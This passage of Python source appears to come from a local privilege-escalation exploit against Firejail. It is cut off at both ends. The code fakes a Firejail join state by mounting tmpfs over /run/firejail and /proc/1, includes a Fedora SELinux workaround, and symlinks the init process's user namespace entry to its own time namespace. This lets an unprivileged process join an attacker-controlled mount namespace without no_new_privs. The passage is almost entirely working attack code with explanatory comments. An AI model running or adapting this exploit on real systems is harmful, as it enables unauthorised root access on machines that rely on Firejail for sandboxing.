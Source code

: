 ```python
    cmdline += [__file__]

    # Re-execute this script with unshared user and mount namespaces
    subprocess.call(cmdline)

if "FIREJOIN_UNSHARED" not in os.environ:
    # First stage of execution, we first need to fork off a helper sandbox and
    # an exploit environment
    checkSelfExecutable()
    helper_proc, join_file = createHelperSandbox()
    reexecUnshared(join_file)

    helper_proc.kill()
    helper_proc.wait()
    sys.exit(0)
else:
    # We are in the sandbox environment, the suitable join file has been
    # forwarded from the first stage via the environment
    join_file = os.environ["FIREJOIN_JOINFILE"]

# We will make /proc/1/ns/user point to this via a symlink
time_ns_src = "/proc/self/ns/time"

# Make the firejail state directory writeable, we need to place a symlink to
# the fake join state file there
mountTmpFS("/run/firejail")
# Mount a tmpfs over the proc state directory of the init process, to place a
# symlink to a fake "user" ns there that firejail thinks it is joining
try:
    mountTmpFS("/proc/1")
except subprocess.CalledProcessError:
    # This is a special case for Fedora Linux where SELinux rules prevent us
    # from mounting a tmpfs over proc directories.
    # We can still circumvent this by mounting a tmpfs over all of /proc, but
    # we need to bind-mount a copy of our own time namespace first that we can
    # symlink to.
    with open("/tmp/time", 'w') as _:
        pass
    time_ns_src = "/tmp/time"
    bindMount("/proc/self/ns/time", time_ns_src)
    mountTmpFS("/proc")

FJ_MNT_ROOT = Path("/run/firejail/mnt")

# Create necessary intermediate directories
os.makedirs(FJ_MNT_ROOT)
os.makedirs("/proc/1/ns")

# Firejail expects to find the umask for the "container" here, else it fails
with open(FJ_MNT_ROOT / "umask", 'w') as umask_fd:
    umask_fd.write("022")

# Create the symlink to the join file to pass Firejail's sanity check
os.symlink(join_file, FJ_MNT_ROOT / "join")
# Since we cannot join our own user namespace again fake a user namespace that
# is actually a symlink to our own time namespace. This works since Firejail
# calls setns() without the nstype parameter.
os.symlink(time_ns_src, "/proc/1/ns/user")

# The process joining our fake sandbox will still have normal user privileges,
# but it will be a member of the mount namespace under the control of *this*
# script while *still* being a member of the initial user namespace.
# 'no_new_privs' won't be set since Firejail takes over the settings of the
```